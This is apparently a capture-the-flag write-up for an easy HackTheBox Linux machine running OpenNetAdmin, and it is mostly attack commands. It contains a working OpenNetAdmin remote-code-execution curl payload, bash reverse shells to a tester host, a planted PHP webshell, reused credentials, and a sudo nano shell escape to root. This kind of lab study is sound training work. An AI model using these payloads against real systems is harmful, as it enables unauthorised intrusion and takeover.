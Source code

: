## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
**Tags:** `OpenNetAdmin`, `webshell`, `password reuse`, `sudo nano`, `GTFObins`

---

## 📡 Recon

### Nmap Scan

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.171
nmap -p 22,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.171
```

- Open ports: `22 (SSH)`, `80 (HTTP)`
- Apache 2.4.29, [OpenSSH 7.6](SSH) → Ubuntu 18.04

---

## 🌐 [Web Enumeration](HTTP.md)

### Gobuster

```bash
gobuster dir -u http://10.10.10.171 \
  -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt \
  -x php,txt,html -o scans/gobuster-root-php_txt_html
```

✅ Found:
- `/music`, `/artwork`, `/sierra`, `/ona`

### OpenNetAdmin (ONA)

- Version 18.1.1 (vulnerable)

---

## 🐚 Shell as www-data

### Exploit OpenNetAdmin RCE

```bash
curl -s -d "xajax=window_submit&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;id&xajaxargs[]=ping" http://10.10.10.171/ona/
```

### Reverse Shell Payload

```bash
curl -s -d "xajax=window_submit&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash -c 'bash -i >& /dev/tcp/10.10.14.11/443 0>&1'&xajaxargs[]=ping" http://10.10.10.171/ona/
```

### Listener

```bash
nc -lvnp 443
```

✅ Shell as `www-data`

---

## 👤 Priv Esc: www-data → jimmy

### Database Password Reuse

```bash
cat /var/www/html/ona/local/config/database_settings.inc.php
# Found password: n1nj4W4rri0R!
```

### Switch User

```bash
su jimmy
```

✅ Shell as `jimmy`

---

## 👥 Priv Esc: jimmy → joanna

### View Internal Site Config

```bash
cat /etc/apache2/sites-enabled/internal.conf
# Port 52846, user joanna
```

### SSH Tunnel

```bash
ssh jimmy@10.10.10.171 -L 52846:localhost:52846
```

### Path 1: Webshell

```bash
echo '<?php system($_GET["cmd"]); ?>' > /var/www/internal/shell.php
curl "http://127.0.0.1:52846/shell.php?cmd=id"
curl "http://127.0.0.1:52846/shell.php?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.11/4444 0>&1'"
```

### Path 2: Decrypt Joanna’s SSH Key

```php
# From index.php: password = joanna
# Get key from main.php after login
```

Decrypt the key:

```bash
openssl rsa -in joanna-enc -out id_rsa_joanna
# Pass: bloodninjas
```

Login:

```bash
ssh -i id_rsa_joanna joanna@10.10.10.171
```

✅ Shell as `joanna`  
📄 `cat user.txt`

---

## 🔓 Priv Esc: joanna → root

### Sudo Rights

```bash
sudo -l
# /bin/nano /opt/priv (NOPASSWD)
```

### GTFObins - Nano Shell Escape

```bash
sudo /bin/nano /opt/priv
# Ctrl + R, then Ctrl + X
# Enter: reset; sh 1>&0 2>&0
# Then: bash
```

✅ Root shell  
📄 `cat /root/root.txt`
